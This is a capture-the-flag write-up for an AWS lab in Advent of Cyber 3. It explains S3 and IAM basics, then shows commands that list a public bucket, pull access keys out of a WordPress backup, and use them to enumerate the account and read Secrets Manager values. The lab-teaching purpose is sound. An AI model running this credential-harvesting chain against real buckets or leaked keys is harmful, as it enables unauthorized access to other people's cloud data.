

# Advent of Cyber 3 / Day 17 - Cloud

### AWS Cloud Service
AWS is a highly popular public cloud service provider that generates significant revenue for Amazon. AWS offers a wide range of services, including computing, big data, machine learning, data storage, video streaming, IoT, robotics, blockchain, satellite services, and quantum computing.

The infrastructure of AWS is divided into "Regions," which consist of multiple data centers. Each region contains "Availability Zones" that enhance flexibility, ensuring system resilience against disasters and hardware failures.

AWS can be accessed through the AWS Console, AWS CLI, AWS API, and SDKs for various programming languages. Users can specify the desired region using the --region option.

---

### Install aws-cli on Linux
```bash
$ curl "https://awscli.amazonaws.com/awscli-exe-linux-x86_64.zip" -o "awscliv2.zip"

$ unzip awscliv2.zip

$ sudo ./aws/install

$ aws --version
aws-cli/2.23.0 Python/3.12.6 Linux/5.15.167.4-microsoft-standard-WSL2 exe/x86_64.kali.2024

$ which aws
/usr/local/bin/aws

$ rm -rf awscliv2.zip aws
```

### Uninstall aws-cli on Linux 
```bash
$ which aws
/usr/local/bin/aws

$ sudo rm -rf /usr/local/aws-cli /usr/local/bin/aws

$ aws --version
zsh: command not found: aws
```

---

### Amazon S3
S3 is Amazon's object storage service, where data is stored in "Buckets." A bucket functions as a key-value storage system, where the "key" is the file path and the "value" is the file content.

**Public service:**
S3 is a public service that is not within an organization's firewall, making it convenient for hosting public content.

- **Unique bucket names:** Each bucket has a unique name, and no AWS customer can create a bucket with a duplicate name, e.g., `bestfestivalcompany-images`.
- **Diverse use cases:** S3 can be used for various purposes, such as data archiving, video processing, and compliance storage.
- **Challenges:**
  - Data may be stored in the wrong location.
  - Sensitive data may be unintentionally exposed to the public.

---

### Discovering Bucket Names
- An easy way to find bucket names is by inspecting links to images, PDFs, or other files stored on S3.
- **Example links:**
    - `http://BUCKETNAME.s3.amazonaws.com/FILENAME.ext`
    - `http://s3.amazonaws.com/BUCKETNAME/FILENAME.ext`

### Listing the Contents of Buckets
- Some publicly configured buckets allow you to list the files inside.
    - **Example commands to list files in the `irs-form-990` bucket:**
    ```bash
    $ curl http://irs-form-990.s3.amazonaws.com/
    $ aws s3 ls s3://irs-form-990/ --no-sign-request # List files in the bucket
    ```

### Downloading Objects
- Files from S3 can be downloaded using `curl` or the AWS CLI.
    - **Examples:**
    ```bash
    $ curl http://irs-form-990.s3.amazonaws.com/201101319349101615_public.xml
    $ aws s3 cp s3://irs-form-990/201101319349101615_public.xml . --no-sign-request 
    ```

### Notes:
- `--no-sign-request`: This flag allows access to S3 data without requiring AWS authentication.
- S3 files can be accessed using both `http://` and `s3://` formats.

---

### The Different Levels of Amazon S3 Authentication
- Amazon S3 access is divided into two main levels:
    - **Bucket Permissions:** Allows users to "list objects" in a bucket.
    - **Object Permissions:** Allows users to "download objects."

- **Access relationships:**
    - Bucket and object access can be configured independently.
        - Example: You may have access to list bucket contents but not download objects.
        - Conversely, you may not see the bucket but can still download specific objects.

- **Public access levels:**
    - **ACL (Access Control List) summary table:**
        - **ACL Name:** `Anyone`, **Bucket:** Can list objects, **Object:** Can download objects without authentication.
        - **ACL Name:** `AuthenticatedUsers`, **Bucket:** Only authenticated AWS users can list objects, **Object:** Only authenticated AWS users can download objects.

---

### AWS IAM
- **Request Signing:**
    - Most AWS services require signed requests (except some legacy services like S3).
    - AWS CLI and SDKs automatically sign requests.
    - Signing uses IAM Access Keys, which are a primary target for attackers.

- **What are IAM Access Keys?**
    - A credential set used to authenticate AWS API access.
    - Consists of an **Access Key ID** and a **Secret Access Key**.

- **IAM Access Key formats:**
    - **Access Key ID:**
        - Starts with `AKIA`
        - 20 characters long
        - Functions as the username for AWS API authentication
    
    - **Secret Access Key:**
        - 40 characters long
        - Provided by AWS and can only be viewed once at creation

- **Short-term Credentials:**
    - **Access Key ID** starts with `ASIA`
    - Requires a **Session Token** for AWS resource access

---

### Reconnaissance with IAM
- **Adding AWS credentials to AWS CLI profiles:**
    - Use `aws configure --profile PROFILENAME` to store the Access Key and Secret Key in `.aws/config` and `.aws/credentials`.
    - This allows you to run AWS commands using the specified profile without affecting the default profile.

- **Running AWS commands with a specific profile:**
    - `aws s3 ls --profile PROFILENAME` lists all S3 buckets for the specified AWS account.

- **Recommendations:**
    - Avoid storing Access Keys in the default profile to prevent accidental use.

- **Common reconnaissance techniques:**
    - Find **Account ID** from an Access Key: `aws sts get-access-key-info --access-key-id AKIAEXAMPLE`
    - Find **Username** associated with an Access Key: `aws sts get-caller-identity --profile PROFILENAME`
    - List **all EC2 instances** in the AWS account: `aws ec2 describe-instances --output text --profile PROFILENAME`
    - List **EC2 instances in another region**: `aws ec2 describe-instances --output text --region us-east-1 --profile PROFILENAME`

- **Amazon Resource Name (ARN):**
    - A unique identifier for all AWS resources.
    - Format: `arn:aws:<service>:<region>:<account_id>:<resource_type>/<resource_name>`

---

### Challenges
- Website: `https://s3.amazonaws.com/images.bestfestivalcompany.com/flyer.png`


1. Name of the S3 Bucket used to host the Website is images.bestfestivalcompany.com

---

2. Download the flag.txt object from that bucket.
```bash
$ curl https://s3.amazonaws.com/images.bestfestivalcompany.com/
$ aws s3 ls s3://images.bestfestivalcompany.com/ --no-sign-request
# flag.txt

$ aws s3 cp s3://images.bestfestivalcompany.com/flag.txt . --no-sign-request
# download: s3://images.bestfestivalcompany.com/flag.txt to ./flag.txt

$ cat flag.txt 
```

---

4. Question: Find AWS Access Key ID in the file
```bash
$ aws s3 cp s3://images.bestfestivalcompany.com/wp-backup.zip . --no-sign-request
$ unzip wp-backup.zip
$ cd wp_backup
$ cat * | grep "AKIA" 2>/dev/null
# define('S3_UPLOADS_KEY', 'AKIAxxxxxxxxxxxxxxxxxx');
```

---

5. Question: Find AWS Account ID.
```bash
$ cat wp_config.php
/* Add any custom values between this line and the "stop editing" line. */
define('S3_UPLOADS_BUCKET', 'images.bestfestivalcompany.com');
define('S3_UPLOADS_KEY', 'AKIAxxxxxxxxxxxxxxxxxx');
define('S3_UPLOADS_SECRET', 'Y+2fQBoJ+X9N0GzT4dF5kWE0ZX03n/KcYxkS1Qmc');
define('S3_UPLOADS_REGION', 'us-east-1');

$ wp_backup aws configure --profile hr
AWS Access Key ID [****************YAOI]: AKIAxxxxxxxxxxxxxxxxxx
AWS Secret Access Key [****************1Qmc]: Y+2fQBoJ+X9N0GzT4dF5kWE0ZX03n/KcYxkS1Qmc
Default region name [us-east-1]: us-east-1
Default output format [None]:

$ cd ~/.aws
$ aws sts get-access-key-info --access-key-id AKIAxxxxxxxxxxxxxxxxxx --profile hr
"Account": "xxxxxxxxxxxx"
```

---

6. Question: Find Username for access-key.
- Answer: ElfMcHR@bfc.com
```bash
$ aws sts get-caller-identity --profile hr
{
    "UserId": "AIDAQI52OJVCFHT3E73BO",
    "Account": "xxxxxxxxxxxx",
    "Arn": "arn:aws:iam::xxxxxxxxxxxx:user/example@company.com"
}
```

---

7. Under the TAGs, Find the name of the instance?
```bash
$ aws ec2 describe-instances --output text --profile hr
# TAGS    Name    HR-Portal
```

---

8. Find database password stored in Secrets Manager.
```bash
$ aws secretsmanager help
$ aws secretsmanager list-secrets --profile hr 
"Name": "HR-Password"

$ aws secretsmanager get-secret-value --secret-id HR-Password --profile hr
"SecretString": "The Secret you're looking for is not in this **REGION**. Santa wants to have low latency to his databases. Look closer to where he lives."

$ aws secretsmanager get-secret-value --secret-id HR-Password --profile hr --region eu-north-1
"SecretString": "example-password"
```